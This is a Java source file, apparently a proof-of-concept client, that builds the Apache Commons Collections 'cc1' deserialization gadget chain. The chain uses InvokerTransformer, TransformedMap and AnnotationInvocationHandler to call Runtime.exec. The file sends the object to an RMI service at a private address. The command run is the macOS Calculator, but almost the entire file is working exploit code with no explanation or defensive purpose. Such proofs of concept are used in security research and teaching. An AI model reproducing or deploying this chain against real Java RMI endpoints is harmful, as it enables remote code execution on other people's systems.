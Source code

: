 ```java
package test;

import java.rmi.Naming;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.rmi.RemoteException;
import java.util.HashMap;
import java.util.Map;

public class Client {
    public static void main(String[] args) throws Exception {
       
        Registry registry = LocateRegistry.getRegistry("192.168.0.100", 1099);
        RemoteHello h = (RemoteHello) registry.lookup("Hello");
        String rs = h.exp(payload());
        
    }
    public static Object payload() throws Exception {
    //以下全为cc1攻击链 
 		Transformer[] transformers = new Transformer[]{
 			new ConstantTransformer(Runtime.class),
			new InvokerTransformer("getMethod", new Class[]
					{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
					new InvokerTransformer("invoke", new Class[]{Object.class,
					Object[].class}, new Object[]{null, new Object[0]}),
 					new InvokerTransformer("exec", new Class[]{String.class},
					new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})};
 		Transformer transformerChain = new ChainedTransformer(transformers);
 		Map map = new HashMap();
 		map.put("value", "lala");
		Map transformedMap = TransformedMap.decorate(map, null,transformerChain);
 		Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
 		Constructor ctor = cl.getDeclaredConstructor(Class.class,Map.class);
 		ctor.setAccessible(true);
		 Object instance = ctor.newInstance(Target.class, transformedMap);
 		return instance;
 	}
}
```

